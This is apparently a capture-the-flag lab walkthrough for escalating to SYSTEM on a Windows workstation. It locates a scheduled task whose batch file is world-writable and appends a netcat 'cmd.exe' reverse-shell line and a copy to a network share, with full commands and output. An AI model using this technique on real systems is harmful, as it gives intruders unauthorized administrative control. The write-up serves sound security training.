 ## Connect to WRK2
- RDP to WRK2
- Open a command shell.
- Look at the "C:\Users\laura.wood\Downloads>" directory.
- There's a nc.exe file. (Netcat)
	- If we manage to find some service or application that is running in the machine with administrator or system privileges, we might be able to execute netcat with administrative privileges, gaining an elevated administrative shell.
	- One quick way of escalating privileges inside a machine is through a misconfigured scheduled task, especially when it is using a binary or batch file that we can modify.

## List of tasks
- By using the command schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”,we are able to forward a list of several tasks, to a CSV file, that run with administrative privileges (the /fo csv will print the text in a CSV format).
```
schtasks /query /fo csv /v | findstr “SYSTEM > tasks.csv”
```

> Based on the output, most of the tasks run from the Windows directory, which normally means that those tasks are well configured. A quick search into the CSV reveals that a certain task runs from the following file (**C:\SYNC\sync.bat**):


C:\Users\laura.wood\Downloads> schtasks /query /fo csv /v | findstr "SYSTEM > tasks.csv"
"WRK2","\FULLSYNC","3/14/2024 6:59:36 PM","Ready","Interactive/Background","3/14/2024 6:54:36 PM","1","CORP\Administrator","**C:\SYNC\sync.bat** ","N/A","N/A","Enabled","Disabled","Stop On Battery Mode, No Start On Batteries","SYSTEM","Disabled","72:00:00","Scheduling data is not available in this format.","One Time Only, Minute ","12:19:36 PM","4/2/2023","N/A","N/A","N/A","0 Hour(s), 5 Minute(s)","None","Disabled","Disabled"

## Query for the taskname
Query for the taskname, in order to get more information regarding the schedule task:
```
schtasks /query /fo list /tn FULLSYNC /v
```
Folder: \
HostName:                             WRK2
TaskName:                             \FULLSYNC
Next Run Time:                       3/14/2024 7:19:36 PM
Status:                                    Ready
Logon Mode:                          Interactive/Background
Last Run Time:                       3/14/2024 7:14:36 PM
Last Result:                            1
Author:                                   CORP\Administrator
Task To Run:                          C:\SYNC\sync.bat
Start In:                                  N/A
Comment:                              N/A
Scheduled Task State:         Enabled
Idle Time:                              Disabled
Power Management:            Stop On Battery Mode, No Start On Batteries
Run As User:                         SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                    One Time Only, Minute
Start Time:                           12:19:36 PM
Start Date:                           4/2/2023
End Date:                             N/A
Days:                                    N/A
Months:                               N/A
Repeat: Every:                     0 Hour(s), 5 Minute(s)
Repeat: Until: Time:            None
Repeat: Until: Duration:      Disabled
Repeat: Stop If Still Running:        Disabled

> FULLSYNC scheduled task runs every 5 minutes.

## Check the permissions of the file "C:\SYNC\sync.bat"
```
icacls C:\SYNC\sync.bat
```
Everyone:(F)
BUILTIN\Users:(F)
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
BUILTIN\Users:(I)(RX)

> - Full access on the sync.bat file.

## Set up a listener with the previously found netcat
```
nc -lnvp 4444
```
listening on [any] 4444 ...

## Edit the sync.bat file

Add the following code:
`C:\Users\laura.wood\Downloads\nc.exe -e cmd.exe 127.0.0.1 4444`
`copy C:\Windows\Temp \\s3.corp.thereserve.loc\backups\`

> After a couple of minutes (5 at most) you should receive an administrative reverse shell.
## Execute the task to force a reverse shell
If you want to execute the task inmediately, run the following command.
`
```
schtasks /run /tn FULLSYNC
```

SUCCESS: Attempted to run the scheduled task "FULLSYNC". 

On the first command shell you'll see the following output.

listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 54255
Microsoft Windows [Version 10.0.17763.4252]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

[[Flag-4 Administrative access to Corporate Division Tier 2 Infrastructure]]


